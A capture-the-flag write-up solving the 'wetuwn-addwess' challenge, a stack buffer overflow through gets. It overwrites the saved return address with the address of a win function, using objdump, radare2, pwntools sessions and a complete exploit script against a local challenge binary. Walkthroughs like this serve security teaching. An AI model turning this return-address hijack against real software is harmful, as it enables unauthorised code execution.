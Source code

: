 # wetuwn-addwess

## Challenge

The program asks for our name, then repeats our name and prints the return address.

```
What's your name?
Green-Avocado
Hello Green-Avocado! Let's go to 0x681d73df1b25
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

We have an unsafe call to `gets`, similar to the "owoverflow" challenge.
However, this time there are no other stack variables to overwrite.

If we disassemble the `main` function:

```asm
┌ 205: int main (int64_t argc);
│           ; var char *s @ rbp-0x30
│           ; var file*stream @ rbp-0x8
│           ; arg int64_t argc @ rbp+0x8
```

we see that te variables are arranged as follows:

```
(40) name
 (8) flagfile
 (8) saved RBP
 (8) saved RIP
```

There is no canary, so we can overwrite the saved RBP and RIP.

The saved RIP is important as it determines where to execute instructions from when we return.
Normally, this would be in the caller function.
If we overwrite this saved value, we can choose what address to return to.

The function prints the return address before it returns.
If we write 56 bytes of padding, we can overwrite the saved RIP with the next 8 bytes:

```
$ ./wetuwn-addwess                       
What's your name?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA! Let's go to 0x4141414141414141
```

We successfully controlled the return address and changed it to 0x4141414141414141!

Note that there is a `win` function which prints the flag:

```c
void win() {
    puts(flag);
}
```

If we can change the return address to go to this function, it'll print the flag.
Let's get the address of this function:

Using objdump:

```
$ objdump -t wetuwn-addwess | grep win  
0000000000401216 g     F .text	0000000000000017              win
```

Using radare2:

```
$ r2 wetuwn-addwess
 -- There's a branch for that.
[0x00401130]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00401130]> afl~win
0x00401216    1 23           sym.win
```

Using pwntools:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-addwess')
[*] '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> exe.sym['win']
4198934
>>> hex(_)
'0x401216'
```

Note tha PIE is disabled.
We can use these addresses as is, since the base address won't be randomized.

Let's pack the address of `win` and send it at an offset of 56 bytes:

```py
>>> from pwn import *
>>> payload = flat({ 56: p64(exe.sym['win']) })
>>> exe = ELF('wetuwn-addwess')
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess': pid 2172632
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess' stopped with exit code -11 (SIGSEGV) (pid 2172632)
What's your name?
Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa@! Let's go to 0x401216
maple{r3turn_t0_w1n}

[*] Got EOF while reading in interactive
```

We successfully overwrite the return address with the address of our win function and got the flag!

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1339 ret2win
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('wetuwn-addwess')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x30 + 0x8: exe.sym['win'],
    })

io.sendlineafter(b"What's your name?", payload)

io.interactive()
```

## Flag

```
maple{r3turn_t0_w1n}
```
